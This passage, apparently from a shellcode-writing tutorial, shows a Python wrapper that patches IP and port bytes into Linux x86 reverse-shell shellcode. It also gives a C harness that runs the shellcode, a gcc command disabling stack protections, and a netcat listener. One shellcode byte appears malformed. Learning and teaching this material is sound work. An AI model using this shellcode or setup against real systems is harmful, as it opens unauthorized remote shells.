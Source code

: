 ```

cleaned_hex_port = hex_port_value.replace("0x", "")
first_port_val = "\\x" + cleaned_hex_port[:2]
second_port_val = "\\x" + cleaned_hex_port[2:]

print "1st port: %s" % first_port_val
print "2nd port: %s" % second_port_val
print ""

print "Ammending shellcode..."
shellcode = shellcode.replace("[i4]", fourth_ip_asm)
shellcode = shellcode.replace("[i3]", third_ip_asm)
shellcode = shellcode.replace("[i2]", second_ip_asm)
shellcode = shellcode.replace("[i1]", first_ip_asm)

shellcode = shellcode.replace("[p2]", second_port_val)
shellcode = shellcode.replace("[p1]", first_port_val)

print "Final Shellcode:"
print shellcode
```

Running our Python wrapper once again produces NULL byte free shellcode that can be placed directly into our C script, allowing us to compile and inject the new payload:

```
root@kali:~/Documents/revshell# cat shell.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x89\xfb\x31\xc9\x51\xc6\x04\x24\x1\xc6\x44\x24\x03\x7f\x51\x66\x68\x23\x2d\x66\x6a\x02\x89\xe1\x31\xd2\xb2\x10\xcd\x80\x31\xc0\xb0\x3f\x89\xfb\x31\xc9\xcd\x80\x31\xc0\xb0\x3f\x89\xfb\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x89\xfb\xb1\x02\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\x31\xc0\xb0\x0b\xcd\x80";

int main(void)  {
    printf("Shellcode Length:  %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

We can finally compile our C program with the required arguments:

```
root@kali:~/Documents/revshell# gcc -fno-stack-protector -z execstack shell.c -o shell
```

We are now ready to try out our reverse shell. First we set up a listener on the specified port:

```
root@kali:~/Documents/revshell# nc -nlvp 9005
listening on [any] 9005 ...
```

